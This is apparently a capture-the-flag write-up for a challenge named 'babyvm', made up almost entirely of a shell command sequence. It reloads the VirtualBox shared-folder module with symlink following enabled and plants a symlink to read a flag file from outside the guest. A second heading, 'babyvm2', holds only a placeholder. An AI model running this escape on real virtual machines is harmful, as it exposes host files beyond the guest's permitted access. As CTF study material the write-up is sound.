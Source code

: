 ## babyvm

```
su
ln -s /flag /vagrant/flag
umount vagrant
rmmod vboxsf
modprobe vboxsf follow_symlinks=1
mount -t vboxsf vagrant /vagrant
cat /vagrant/flag
```

## babyvm2

Stay tuned... :>

